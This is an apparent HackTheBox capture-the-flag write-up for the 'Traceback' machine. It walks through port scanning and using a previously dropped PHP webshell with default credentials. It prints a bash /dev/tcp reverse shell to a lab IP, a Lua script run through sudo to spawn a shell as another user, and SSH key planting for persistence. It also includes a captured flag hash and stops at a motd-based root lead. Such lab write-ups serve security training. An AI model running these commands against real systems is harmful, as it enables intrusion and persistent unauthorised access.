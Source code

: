 # TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Generating ssh-key to get more stable shell.
5. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our lateral movement later.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. BUT thing to note, upon checking the sudo permission seems **luvit** is executable by any user.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30fcc402-ea95-46e5-83d8-9b12e350fb76)


19. Remembering we can specify a username, hence we could gain access to sysadmin's home directory.
20. Let's use the **luvit** binary.

===

### USING LUVIT

- Sending shell spawn LOCs to lua.

```
echo "require('os');" > sysad.lua
echo "os.execute('/bin/bash');" > sysad.lua
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b472f3aa-ca88-4f55-93a5-b44f419c6402)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/54a0f835-d4c9-4fda-a9d1-840b85d5aa60)



## USER FLAG

```
4835038ff249e1ae23de765fc1110e3d
```

21. Great! Now let's change our shell mode to interactive by executing `bash -i`, then add our ssh-key to sysadmin's authorized_keys.
22. With this, we can have access directly without dropping reverse shell.

```console
Generate ssh key at our local machine.

┌──(brandy㉿bread-yolk)-[~/.ssh]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/brandy/.ssh/id_ed25519): sysadmin
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sysadmin
Your public key has been saved in sysadmin.pub
The key fingerprint is:
SHA256:ExUTsfRZaVupYJr+VAwDiB+QPtNOGz92d+chutc2U5A brandy@bread-yolk
The key's randomart image is:
+--[ED25519 256]--+
|     .+ ..O+  ...|
|     o o o O oo..|
|    . o o = B..+ |
|     + = +   +E  |
|      = S   .  . |
|       o * o o oo|
|        . = o +.+|
|           o . =.|
|           .o . o|
+----[SHA256]-----+
                                                                                                                                                                                             
┌──(brandy㉿bread-yolk)-[~/.ssh]
└─$ cat sysadmin.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGlvFYfrNpHf4A8gXc+IB+B8xYMYE3ajJkruV47FkzhJ brandy@bread-yolk
```

23. Then, add it to sysadmin's authorized_keys file.

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGlvFYfrNpHf4A8gXc+IB+B8xYMYE3ajJkruV47FkzhJ brandy@bread-yolk" >> authorized_keys
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6869268c-1acf-457a-96ca-95ca24c535b4)


#### NOTES:

```
Remember to execute the ssh inside .ssh directory and don't forget to execute chmod 400 to id_rsa file.
```


24. Awesome, to gain root, I used **linpeas** to identify misconfigurations or vulns reside in this machine which might help us to gain root.
25. Also I used **pspy64** to identify cron job processes run without the need for root.
26. Long story short, after reviewing the **pspy64** result, found a process which executed as root user right after I change the shell mode to interactive.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/59361f7d-5dbc-4dcd-a84e-13df3b93bae2)


27. Reviewing the next activity, it gets executed again at every 30 seconds.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8838b0eb-aef1-4842-8156-1b7723aa81e3)



28. Seems `/etc/update-motd.d/` should be our target by now.



## IMPORTANT LINKS

```

```
